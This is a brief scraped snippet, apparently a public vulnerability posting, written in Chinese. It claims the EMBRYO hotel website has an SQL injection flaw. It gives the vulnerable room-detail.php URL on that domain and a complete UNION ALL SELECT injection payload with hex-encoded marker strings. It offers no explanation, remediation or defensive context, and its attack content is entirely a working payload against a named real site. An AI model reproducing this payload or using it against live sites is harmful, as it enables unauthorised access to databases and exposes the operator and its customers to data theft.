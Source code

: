 #EMBRYO酒店网站存在SQL注入漏洞
漏洞出现:http://www.embryohotel.com/room-detail.php?id=1
Payload: id=-5476 UNION ALL SELECT NULL,NULL,CONCAT(0x71716b6a71,0x64556a4c4d4161445572766b49646a6a65485a4473516677746450534f777054454f5062644d6d78,0x7171706b71),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--
